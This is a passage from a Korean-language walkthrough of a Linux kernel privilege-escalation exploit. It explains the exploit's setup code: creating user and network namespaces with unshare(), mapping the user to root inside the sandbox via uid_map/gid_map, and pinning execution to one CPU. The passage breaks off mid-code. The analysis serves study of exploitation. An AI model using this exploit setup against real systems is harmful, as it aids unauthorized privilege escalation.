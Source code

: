따라서 공격자가 해당 권한을 가지기 위해 linux kernel에서 지원하는 namespace와 cgroup 기능을 이용해서 별도의 container를 만든 후, 현재 사용자에게 해당 container의 관리자 권한을 부여하는 것이다.

> linux container 기술에 대한 자세한 사항은 아래를 참고하도록 한다.

> [Docker(container)의 작동 원리: namespaces and cgroups]: https://tech.ssut.me/what-even-is-a-container/



코드를 좀 더 자세히 분석해 보자. 먼저 아래와 같이 현재 사용자의 uid, gid를 구해온다.

```c
int real_uid = getuid();
int real_gid = getgid();
```

<br>
아래 코드에서 unshare()는 linux namespace를 쉽게 다룰 수 있도록 제공하는 함수이다. CLONE_NEWUSER 라는 변수를 넘겨줄 경우 새로운  user namespace를 만든다. 즉 이 함수가 실행된 순간부터 uid와 gid가 격리되는 것이다.<br>
이후 CLONE_NEWNET 변수를 이용하여 사용자의 네트워크(nic, address, route, fw 등)를 격리시킨다.

```c
if (unshare(CLONE_NEWUSER) != 0) {
    perror("[-] unshare(CLONE_NEWUSER)");
    exit(EXIT_FAILURE);
}

if (unshare(CLONE_NEWNET) != 0) {
    perror("[-] unshare(CLONE_NEWUSER)");
    exit(EXIT_FAILURE);
}
```

<br>
앞에서 구한 사용자의 uid, gid를 이용하여 격리된 sandbox의 관리자로 변경한다. 이제 sandbox에서 id를 입력하면 uid, gid 모두 0으로 표시되게 된다.

```c
if (!write_file("/proc/self/setgroups", "deny")) {
    perror("[-] write_file(/proc/self/set_groups)");
    exit(EXIT_FAILURE);
}
if (!write_file("/proc/self/uid_map", "0 %d 1\n", real_uid)){
    perror("[-] write_file(/proc/self/uid_map)");
    exit(EXIT_FAILURE);
}
if (!write_file("/proc/self/gid_map", "0 %d 1\n", real_gid)) {
    perror("[-] write_file(/proc/self/gid_map)");
    exit(EXIT_FAILURE);
}
```

<br>
최근의 컴퓨터들은 여러개의 cpu를 가지고 있기 때문에 exploit이 현재 cpu에서 실행되다가 다른 cpu에서 실행이 될 수도 있다. 이건 현대 cpu들의 Mitigation을 우회하는 것에 문제가 생길 수도 있는데 자세한 것은 뒤에서 설명하기로 한다. 어쨌든 아래의 코드는 이 exploit이 현재 cpu에서만 실행되도록 보장하기 위한 코드이다.

```c
cpu_set_t my_set;
CPU_ZERO(&my_set);
